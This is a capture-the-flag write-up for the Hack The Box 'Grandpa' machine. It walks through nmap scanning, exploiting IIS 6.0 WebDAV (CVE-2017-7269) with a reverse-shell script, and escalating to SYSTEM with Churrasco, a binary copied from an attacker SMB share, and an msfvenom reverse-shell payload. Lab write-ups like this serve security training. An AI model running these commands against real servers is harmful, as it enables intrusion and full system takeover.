 # Grandpa Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

``nmap -T4 -p- -sV -oA fullgrandpa 10.10.10.14``

![image](https://user-images.githubusercontent.com/123066149/221123940-c6cf766e-2cef-4e2b-a2c3-e32af2f1e96c.png)

### On this box there is only the port 80 which is open there is an iss 6.0 and webdav  :

``nmap -sC -sV -oA grandpa 10.10.10.14 -T4``

![image](https://user-images.githubusercontent.com/123066149/221124410-19da52ac-a55f-4530-9db3-55fdcc355cc3.png)

# ${{\color{purple}Initial Foothold}}\ $

### The following methods are allowed :

``Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK``

### We have the right recipe an iis 6.0 and the PROFIND method which is active

![image](https://user-images.githubusercontent.com/123066149/221125371-2ee1ce5c-5897-44f6-a561-96e7de8a1ee3.png)

![image](https://user-images.githubusercontent.com/123066149/221125507-bac221ed-0bac-47b2-a433-b08cd7a080b2.png)

### So I will move on to the exploitation of this buffer :

# ${{\color{purple}Exploitation}}\ $

### I used this exploit :

https://github.com/k4u5h41/CVE-2017-7269

``python2.7 ii6_reverse_shell.py 10.10.10.14 80 10.10.16.5 4444``

![image](https://user-images.githubusercontent.com/123066149/221126503-b6339b87-a15f-4a0c-a76a-c4f18efd788c.png)

![image](https://user-images.githubusercontent.com/123066149/221126601-53615812-d97e-4f08-879c-7b5f2db13a22.png)

# ${{\color{purple}Privilege Escalation}}\ $

![image](https://user-images.githubusercontent.com/123066149/221126796-38030014-f695-4f30-b8b4-61c86cf63679.png)

``SEImpersonalPrivilege``
is one I know to look out for modern boxes, that means a potato exploit (juicy, lonely, rotten). But for 2003, 
it’s better to start with kernel exploit.

``python windows-exploit-suggester.py -d 2023-02-18-mssb.xls -i ../sysinfo.txt > vuln.txt``

![image](https://user-images.githubusercontent.com/123066149/221127842-8284e835-646b-47a9-934c-bdc25f4314eb.png)

### I had a choice but I used e``Churraskito.exee`` / ``churrasco.exe``

https://github.com/Re4son/Churrasco/

``copy \\10.10.16.5\kali\Churraskito.exe`` 

``Churraskito.exe "C:\Windows\system32\cmd.exe" "whoami"``

![image](https://user-images.githubusercontent.com/123066149/221128486-dcde9079-e41c-40ea-871b-c35488e243d8.png)

``msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.5 LPORT=8888 -f exe -o exploit.exe``

``Churraskito.exe "C:\Windows\system32\cmd.exe" "C:\wmpub\exploit.exe"``

![image](https://user-images.githubusercontent.com/123066149/221128707-7440e4e1-8041-4a31-b9a2-a69fdc243a11.png)

# ${{\color{purple}Points of Improvement}}\ $
